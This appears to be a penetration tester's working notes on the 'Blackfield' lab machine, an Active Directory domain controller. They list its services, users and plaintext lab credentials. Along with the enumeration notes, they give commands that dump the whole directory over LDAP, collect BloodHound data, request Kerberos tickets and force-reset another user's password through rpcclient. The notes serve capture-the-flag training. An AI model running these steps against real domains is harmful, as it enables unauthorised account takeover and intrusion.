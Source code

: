 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135 rpc,389,445,593,3268,5985, smb 445 (signing:True) (SMBv1:False), 
Service Languages:
Users: dc01, audit2020,support,svc_backup,lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
audit2020 : ComplexP4ssw0rd!

```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might acommplish much
- svc_backup is the only member of remote mamagement
-
-
-
-
-

```
impacket-getTGT -dc-ip 10.129.229.17 'blackfield.local/audit2020'
```

#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially